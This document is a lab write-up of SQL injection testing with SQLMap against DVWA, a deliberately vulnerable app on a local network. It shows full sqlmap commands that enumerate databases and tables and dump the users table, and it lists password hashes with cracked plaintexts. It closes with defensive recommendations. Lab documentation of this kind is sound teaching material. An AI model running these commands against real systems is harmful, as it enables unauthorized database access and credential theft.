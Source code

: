 # SQLMap Penetration Testing Documentation

## Overview

This document contains details about the SQL injection testing performed on the target application, steps taken, commands executed, and results obtained.

## Prerequisites

- **Target**: http://192.168.1.7/dvwa
- **Tools Used**: SQLMap
- **Setup**:
  - DVWA running on a local environment.
  - Security level set to `low`.

## Step 1: Identify Vulnerabilities

### Command:

```bash
sqlmap -u "http://192.168.1.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"        -p id        --cookie "security=low; PHPSESSID=qhhbnclv8g0ummo85hrsjdr582; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada"        --dbs
```

### Results:

- Identified injectable parameter: `id`.
- Databases discovered:
  - `dvwa`
  - `information_schema`

---

## Step 2: Select Target Database

### Command:

```bash
sqlmap -u "http://192.168.1.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"        -p id        --cookie "security=low; PHPSESSID=qhhbnclv8g0ummo85hrsjdr582; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada"        -D dvwa        --tables
```

### Results:

- Tables in `dvwa` database:
  - `guestbook`
  - `users`

---

## Step 3: Dump Table Data

### Dumping `users` Table

#### Command:

```bash
sqlmap -u "http://192.168.1.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"        -p id        --cookie "security=low; PHPSESSID=qhhbnclv8g0ummo85hrsjdr582; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada"        -D dvwa        -T users        --columns
```

#### Results:

- Columns in `users` table:
  - `user_id`
  - `first_name`
  - `last_name`
  - `user`
  - `password`

---

### Dumping User Credentials

#### Command:

```bash
sqlmap -u "http://192.168.1.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"        -p id        --cookie "security=low; PHPSESSID=qhhbnclv8g0ummo85hrsjdr582; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada"        -D dvwa        -T users        --dump
```

#### Results:

- Extracted Data:
  | user_id | user | password ||first_name | |first_name|
  |---------|-------------|-----------------------------------------||-----------| |----------|
  | 1 | admin | 21232f297a57a5a743894a0e4a801fc3 (admin) || admin | | admin |
  | 2 | guest | e99a18c428cb38d5f260853678922e03 (abc123) || Brown | | Gordon |
  | 3 | 1337 | 8d3533d75ae2c3966d7e0d4fcc69216b (charley) || Me | | Hack |
  | 4 | pablo | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein) || Picasso | | Pablo |
  | 5 | smithy | 5f4dcc3b5aa765d61d8327deb882cf99 (password) || Smith | | Bob |
  | 6 | user | ee11cbb19052e40b07aac0ca060c23ee (user) || user | | user |

---

## Step 4: Test Other Parameters

#### Testing All Parameters:

```bash
sqlmap -u "http://192.168.1.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"        --cookie "security=low; PHPSESSID=qhhbnclv8g0ummo85hrsjdr582; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada"        --crawl=3        --batch
```

### Results:

- Additional vulnerabilities found in `guestbook` table:
  - Columns dumped successfully.

---

## Recommendations

1. Implement input validation to prevent SQL injection.
2. Use parameterized queries or prepared statements.
3. Restrict database user privileges.
4. Regularly update and patch web applications and database management systems.
5. Utilize a Web Application Firewall (WAF) to detect and block SQL injection attempts.
